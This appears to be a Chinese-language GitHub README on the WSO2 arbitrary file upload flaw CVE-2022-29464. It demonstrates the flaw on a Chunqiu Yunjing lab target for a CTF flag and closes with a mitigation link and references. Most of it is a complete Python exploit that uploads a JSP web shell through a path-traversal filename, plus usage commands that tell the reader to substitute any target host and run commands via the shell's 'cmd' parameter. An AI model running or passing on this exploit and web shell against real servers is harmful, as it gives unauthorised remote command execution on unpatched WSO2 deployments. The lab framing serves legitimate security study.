

# CVE-2022-29464 WSO2 RCE

## Description

WSO2文件上传漏洞(CVE-2022-29464)是 Orange Tsai 发现的 WSO2 上的严重漏洞。

该漏洞是一种未经身份验证的无限制任意文件上传，允许未经身份验证的攻击者通过上传恶意 JSP 文件在 WSO2 服务器上获得 RCE。

## Explanation of exploit

具体分析看这里 https://github.com/hakivvi/CVE-2022-29464

1. 这里使用春秋云镜靶标演示，春秋云镜靶标地址：https://yunjing.ichunqiu.com/cve/detail/734
2. 运行 PoC 脚本，上传 JSP 文件，成功获取 RCE; PoC 脚本方法为：`python3 exploit.py https://host:9443/ ArbitraryShellName.jsp`
3. 将host替换为目标，如 `python .\main.py https://eci-2zee9fyka677nqjaa6he.cloudeci1.ichunqiu.com:9443 shell.jsp`
    
4. 打开浏览器访问目标，成功获取 RCE `https://eci-2zee9fyka677nqjaa6he.cloudeci1.ichunqiu.com:9443/authenticationendpoint/shell.jsp?cmd=cat+%2Fflag`
5. 获取 flag
    

## PoC

```python
## exploit.py

import requests, urllib3, sys

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

if len(sys.argv) != 3:
    print(f"Usage: python3 {sys.argv[0]} https://host shell.jsp")
    exit()

host, file = sys.argv[1:]
shell = """<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>"""

files = {f"../../../../repository/deployment/server/webapps/authenticationendpoint/{file}": shell}
response = requests.post(f'{host}/fileupload/toolsAny', files=files, verify=False)
print(f"shell @ {host}/authenticationendpoint/{file}")
```


## Mitigation

- https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2021-1738


## Refer

- https://github.com/hakivvi/CVE-2022-29464
- https://yunjing.ichunqiu.com/cve/detail/734